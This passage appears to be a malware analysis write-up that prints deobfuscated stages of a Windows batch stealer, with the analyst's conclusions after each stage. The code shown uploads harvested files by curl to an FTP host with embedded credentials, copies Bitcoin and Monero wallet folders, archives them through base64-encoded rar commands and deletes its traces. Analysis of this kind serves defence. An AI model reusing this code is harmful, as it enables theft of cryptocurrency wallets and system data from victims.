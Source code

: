 ```bash
timeout /t 6 >nul
for /F "tokens=2 delims=*" a in ('findstr /I "host" nt.txt') do 
(curl -T "{vasb.qng,fgrny.qng,ybt.gzc}" ftp://cli:h4x@a) 
timeout /t 9 >nul
del /s /f /q info.dat
del /s /f /q nt.txt
del /s /f /q steal.dat
goto 4
```
#### Conclusion:
* Grabs ipconfig into "temp\info.dat"
* Grabs netbios info into "temp\info.dat"
* Grabs netstat info into "temp\info.dat"
* Grabs tasklist info into "temp\info.dat"
* Grabs publicIP from "ifconfig.me" into  "temp\info.dat"
* Grabs information on clipboard into "temp\steal.dat"
* Im still unaware on the usage of curl -T with what appears to be domains and ftp is still 



### Analysis of deobfuscated ":4"
```bash
cd temp
echo :: -------- BTC Steal --- :: >>cmd.dat
start /b robocopy appdata\Bitcoin\wallets temp\btc /MIR
echo :: -------- EnD --------- :: >>cmd.dat
echo :: -------- XMR Steal --- :: >>cmd.dat
start /b robocopy userprofile\Documents\Monero\wallets temp\xmr /MIR
echo :: -------- EnD --------- :: >>cmd.dat
if exist programfiles\7-Zip\7z.exe (
goto zip) 
else (goto rar
)
```

#### Conclusion:
* Steals bitcoin wallets from "appdata\Bitcoin\wallets" to "temp\btc"
* Steals monero wallets from "userprofile\Documents\Monero\wallets" to "temp\xmr"
* Decides if it should call "zip" or "rar" based on if "programfiles\7-Zip\7z.exe" is present on host.

### Analysis of deobfuscated ":rar"
```bash
cd programfiles\WinRar
set "string17=cmFyIGEgLXIgLXJyICV0ZW1wJVxidGMucmFyICV0ZW1wJVxidGM="
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string17"""^)^)') do
set "decoded17=i"
powershell cmd /c start /b decoded17 >nul
set "string18=cmFyIGEgLXIgLXJyICV0ZW1wJVx4bXIucmFyICV0ZW1wJVx4bXI="
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string18"""^)^)') do 
set "decoded18=i"
powershell cmd /c start /b decoded18 >nul
timeout /t 3 >nul
goto 5
```
